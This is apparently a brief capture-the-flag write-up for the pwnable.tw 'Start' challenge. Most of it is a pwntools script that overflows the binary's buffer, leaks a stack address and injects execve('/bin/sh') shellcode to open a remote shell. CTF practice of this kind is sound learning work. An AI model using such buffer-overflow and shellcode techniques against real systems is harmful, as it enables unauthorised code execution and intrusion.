 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

`from pwn import *

conn = remote("chall.pwnable.tw", 10000)
conn.recv(20)

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

payload = 'A'* 20 + p32(0x08048087)
conn.send(payload)
esp_add = conn.recv(20)

print esp_add

esp_add = u32(esp_add[0:4])
print esp_add
payload = 'A' * 20 + p32(esp_add + 20) + shellcode
conn.send(payload)


conn.interactive()
conn.close()`








